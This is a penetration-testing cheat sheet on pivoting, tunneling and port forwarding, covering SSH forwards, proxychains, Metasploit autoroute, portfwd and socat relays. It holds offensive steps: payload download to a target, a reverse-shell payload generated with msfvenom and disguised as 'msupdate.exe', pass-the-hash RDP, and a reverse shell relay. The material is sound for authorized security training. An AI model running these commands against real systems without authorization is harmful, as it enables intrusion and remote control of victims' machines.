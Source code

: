 # Pivoting, Tunneling, and Port Forwarding

**Pivoting**

- Circumvent network segmentation to access isolated hosts.

**Tunneling**

- Subcategory of pivoting. Encapsulates network traffic into an alternate protocol and routes traffic through it.

**Lateral Movement**

- Technique used to gain access to other hosts, applications, or services within an organization.

**Port Fowarding**

- Redirect network requests to an alternate port.

- Typically uses TCP for communication.

- SSH, SOCKS, or other protocols can be used to encapsulate (tunnel) forwarded traffic.

## Dynamic Port Forwarding with SSH/SOCKS Tunneling

**SOCKS**

- Socket Secure

- SOCKS4 -> No Authentication/UDP support.

- SOCKS5 -> Supports Authentication/UDP.

**Proxychains**

- Route TCP packets through TOR, SOCKS, and HTTP/HTTPS Proxy Servers.

- Chain multiple proxies together.

- /etc/proxychains.conf

### Examples

**Host Discovery via Ping Sweep**

```sh
# Linux
for x in {1..254}; do (ping -c 1 10.0.0.$x | grep "bytes from" &); done;
```

```cmd
# CMD
for /L %i in (1 1 254) do ping 10.0.0.%i -n 1 -w 100 find "Reply"
```

```ps
# PowerShell
1..254 % {"10.0.0.$($_): $(Test-Connection -count 1 -comp 10.0.0.$($_) -quiet)"}
```

- Run twice to build arp cache and prevent false negatives.

**SSH Local Port Forward**

```sh
ssh -L <localport>:<localhost>:<remoteport> <target>
```

- Access remote service locally
- -L flag can be used multiple times

**SOCKS Tunneling w/ Proxychains (Pivot)**

```sh
# Enable SSH Dynamic Port Forwarding
ssh -D <port-to-route-traffic-through> <target>

# Configure Proxy Chains
echo '<proxy_protocol> <ip> <port>' tee -a 
/etc/proxychains.conf

# Forward Nmap Traffic Through Proxy
# ICMP allowed
proxychains nmap -sn 10.0.0.1-254
# ICMP denied
proxychains nmap -v -Pn -sT

# Metasploit
proxychains msfconsole

# RDP
proxychains xfreerdp /v:<host> /u:<user> /p:<password>
```

- Can only perform full TCP connect scan w/ proxychains.

- Exceptionally slower than non-proxied scans.

## Remote/Reverse Port Forwarding with SSH

```sh
# Start Webserver on Pivot Host
python3 -m http.server <port>

# Download Payload to Target

iwr -uri "http://<pivot_host_ip>/<file>" -outfile <output_filename>

# Start SSH Reverse Port Forward
ssh -R <pivot_host_internal_ip>:<pivot_host_port>:0.0.0.0:<local_port> <target> -v -N
```

- -N -> Disable login prompt

## Meterpreter Tunneling/Port Forwarding

**Add Routes via MSF AutoRoute Module**

```sh
# Create Meterpreter Session on Pivot Host and Configure Proxychains First

# Configure Metasploit's SOCKS Proxy
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run

# Create Routes w/ AutoRoute
help autoroute
use post/multi/manage/autoroute
set SESSION <session_ID>
set SUBNET <network_address>
run

# Create Routes Directly From Meterpreter
run autoroute -s <network_address>/<netmask>

# List Active Routes
run autoroute -p

# Test Routing
proxychains nmap -sT -v -Pn <target_ip> -p <port> 
```

**Meterpreter Port Forwarding /w portfwd Module**

```sh
# Display portfwd Help
help portfwd

# Create Local TCP Relay
portfwd add -l <local_port> -p <remote_port> -r <remote_ip>

# Connect To Remote Service via localhost
xfreerdp /v:localhost /u:<user> /pth:<hash>
```

**Meterpreter Reverse Port Forwarding**

```sh
# Configure Reverse Port Forward Rules
portfwd add -R -l <local_port> -p <pivot_host_port> -L <local_host>

# Background Task
bg

# Configure multi/handler
set payload <payload>
set LPORT <local_port>
set LHOST <local_host>

# Generate Payload
msfvenom -p <payload> LHOST=<pivot_host> LPORT=<pivot_host_port> -f <format> -o <outfile>
```

## Socat Reverse Shell Relay

**Socat**

- Bi-directional relay utility that can create pipe sockets between two independent network channels.

- Does not require SSH tunneling.

**Start Socat Listener On Pivot Host**

```sh
socat TCP4-LISTEN:<pivot_host_port>,fork TCP:<local_host>:<local_port>
```

**Generate Windows Payload**

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<pivot_host> LPORT=<pivot_port> -f exe -o msupdate.exe
```

## Socat Redirection w/ Bind Shell**


